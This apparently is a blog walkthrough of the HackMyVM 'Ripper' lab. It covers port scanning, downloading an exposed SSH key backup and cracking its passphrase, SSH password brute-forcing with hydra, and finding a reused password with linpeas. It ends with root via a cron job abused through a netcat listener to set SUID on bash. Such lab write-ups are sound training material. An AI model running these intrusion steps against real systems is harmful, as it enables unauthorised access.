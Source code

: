 ```yaml
---
title: "Ripper - HackMyVM"
---
```


nmap service scan:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/t800]
└─$ nmap -p- -sV 192.168.56.254 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-06 14:12 EDT
Nmap scan report for 192.168.56.254
Host is up (0.00064s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

running go buster to enumerate files and directories: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -q -x php,txt,html,jpg,jpeg -u http://192.168.56.254/
/index.html           (Status: 200) [Size: 57]
/staff_statements.txt (Status: 200) [Size: 107]
/server-status        (Status: 403) [Size: 279]
{% endhighlight %}

staff_statements.txt:
{% highlight text %}
The site is not yet repaired. Technicians are working on it by connecting with old ssh connection files.
{% endhighlight %}

"Old ssh connection files." what could that mean? It means they are potentially using
.bak files, let's run another gobuster scan and specify bak in the extensions:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -q -x txt,bak -u http://192.168.56.254/
{% endhighlight %}

while that's running let's try and wget an id_rsa.bak key from the webserver manually
it actually worked:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ wget http://192.168.56.254/id_rsa.bak
{% endhighlight %}

We need to find the technicians username in order to login. I tried a few generic 
ones with no luck so let's try to crack the ssh key using ssh2john.py:

Generating the hash:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ ./ssh2john.py id_rsa.bak > id_rsa_hash
{% endhighlight %}

Using john to crack the hash: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ john -w=/usr/share/wordlists/rockyou.txt id_rsa_hash
[SSH] cipher value of 6 is not supported!
Using default input encoding: UTF-8
No password hashes loaded (see FAQ)
{% endhighlight %}

Shit, there's no way of cracking it with john as the cypher isn't supported. Let's 
try using RSAcrack.sh. Firstly we need to download it and install it in the usr/bin
directory:
{% highlight terminal %}
root@kali:~# wget -q "https://raw.githubusercontent.com/d4t4s3c/RSAcrack/main/RSAcrack.sh" -O /usr/bin/RSAcrack
root@kali:~# chmod +x /usr/bin/RSAcrack
{% endhighlight %}

Now as the kali user we can use the script:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ RSAcrack

         ██████╗ ███████╗ █████╗
         ██╔══██╗██╔════╝██╔══██╗
         ██████╔╝███████╗███████║
         ██╔══██╗╚════██║██╔══██║
         ██║  ██║███████║██║  ██║
         ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
  ██████╗██████╗  █████╗  ██████╗██╗  ██╗
 ██╔════╝██╔══██╗██╔══██╗██╔════╝██║ ██╔╝
 ██║     ██████╔╝███████║██║     █████╔╝ 
 ██║     ██╔══██╗██╔══██║██║     ██╔═██╗ 
 ╚██████╗██║  ██║██║  ██║╚██████╗██║  ██╗
  ╚═════╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝

[i] Example: RSAcrack <wordlist> <id_rsa>
{% endhighlight %}

This tool is a great addition. After a little while RSAcrack found the password:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ RSAcrack /usr/share/wordlists/rockyou.txt id_rsa.bak 

         ██████╗ ███████╗ █████╗
         ██╔══██╗██╔════╝██╔══██╗
         ██████╔╝███████╗███████║
         ██╔══██╗╚════██║██╔══██║
         ██║  ██║███████║██║  ██║
         ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
  ██████╗██████╗  █████╗  ██████╗██╗  ██╗
 ██╔════╝██╔══██╗██╔══██╗██╔════╝██║ ██╔╝
 ██║     ██████╔╝███████║██║     █████╔╝ 
 ██║     ██╔══██╗██╔══██║██║     ██╔═██╗ 
 ╚██████╗██║  ██║██║  ██║╚██████╗██║  ██╗
  ╚═════╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝

[-] Cracking: id_rsa.bak
[-] Wordlist: /usr/share/wordlists/rockyou.txt
[i] Status:
    957/14344392 (0%) (bananas) )   
[+] Password: bananas Line: 957
{% endhighlight %}


So we've got `bananas` as the key password, but now we need to find the user. 
After not being able to enumerate anything on the web server I looked at a guide and
the writer said that it's visible when the machine terminal is viewed rather than 
being headless in VirtualBox. So we have our user jack. Let's use the key and 
passphrase to login:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ ssh -i id_rsa.bak jack@192.168.56.254
Enter passphrase for key 'id_rsa.bak': 
Linux ripper 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed May 26 15:28:56 2021 from 192.168.0.28
jack@ripper:~$ 
{% endhighlight %}

Enumerating users on the system:
{% highlight text %}
root:x:0:0:root:/root:/bin/bash
jack:x:1000:1000:,,,:/home/jack:/bin/bash
helder:x:1001:1001:,,,:/home/helder:/bin/bash
{% endhighlight %}

Let's try to bruteforce the helder login with hydra:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ hydra -l helder -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.254 -vV
{% endhighlight %}

I let it run for 1000 attempts and quit the session. We'll need to do more more local
enumeration. linpeas.sh to the rescue. 

I transferred it over to the victim machine using a python http server and ran it. 

Interesting info from linpeas.sh:
`═╣ Can I read opasswd file? ............. jack:Il0V3lipt0n1c3t3a`

So we have the credentials, let's try them for our other user on the system. 

They worked for the helder user:
{% highlight terminal %}
helder@ripper:~$ls -asl
total 32
4 drwx------ 3 helder helder 4096 May 26 15:24 .
4 drwxr-xr-x 4 root   root   4096 May 26 14:02 ..
0 lrwxrwxrwx 1 root   root      9 May 26 14:03 .bash_history -> /dev/null
4 -rw-r--r-- 1 helder helder  220 May 26 14:02 .bash_logout
4 -rw-r--r-- 1 helder helder 3659 May 26 15:24 .bashrc
4 drwxr-xr-x 3 helder helder 4096 May 26 15:08 .local
4 -rw-r--r-- 1 helder helder  940 May 26 15:24 .profile
4 -rwx------ 1 helder helder   33 May 26 15:10 user.txt
4 -rw------- 1 helder helder   52 May 26 14:57 .Xauthority
{% endhighlight %}

User flag submitted.

I consulted a guide once again to see the best course of action to take because I
was lost. It suggested `pspy64` should be run to catch any processes we may have 
missed. 

Letting it run a while showed me the following:

{% highlight text %}
2021/11/06 21:16:01 CMD: UID=0    PID=24846  | /bin/sh -c nc -vv -q 1 localhost 10000 > /root/.local/out && if [ "$(cat /root/.local/helder.txt)" = "$(cat /home/helder/passwd.txt)" ] ; then chmod +s "/usr/bin/$(cat /root/.local/out)" ; fi
{% endhighlight %}

So this process runs netcat on local host on port 10000, it then compares helder.txt
to a passwd.txt file in the helder directory. 

Getting root:
{% highlight terminal %}
helder@ripper:~$echo "bash" > /tmp/root
helder@ripper:~$nc -nlvp 10000 < /tmp/root 
listening on [any] 10000 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60522
helder@ripper:~$nc -lnvp 10000 < /tmp/root 
listening on [any] 10000 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60524
helder@ripper:~$ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /usr/bin/bash
helder@ripper:~$bash -p
helder@ripper:~$whoami
root
{% endhighlight %}

I submitted the flags and got the points. Hooray for points. 
